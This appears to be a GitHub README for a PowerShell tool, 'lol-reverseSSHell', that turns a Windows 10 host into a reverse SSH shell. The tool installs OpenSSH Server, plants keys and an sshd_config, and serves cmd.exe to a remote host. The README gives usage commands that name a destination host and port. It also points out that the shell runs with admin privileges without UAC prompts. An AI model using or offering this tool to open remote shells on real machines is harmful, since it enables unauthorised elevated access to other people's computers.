# lol-reverseSSHell.ps1
Living Off the LAN - Reverse SSHell

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It utilizes OpenSSH Server (instead of NetCat / NCat) to forward a CMD.exe shell. If OpenSSH Server is missing from the Windows 10 host, it will install it via WindowsCapability / DISM. ( * If OpenSSH server is missing, the script will ask to install it by downloading OpenSSH Server from Microsoft.) Then the script will copy the sshd_config file, ssh private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo's keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost `<IP Address>`
* .\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
  - -OR- 
* Double Click .bat file and enter requested information.

Setup Instructions for SSH Keypairs and Help Documentation: 
* get-help .\lol-reverseSSHell.ps1 
* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell.exe:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Windows vs Unix Reverse SSH Shells, & the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------   
* Admin Privleges - Because the shell is ran using admin privleges, and most Windows users run as privleged users, the shell will have admin privleges without ever needing to know the admin password. After a shell has been initiated, there are no password prompts or UAC alerts to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

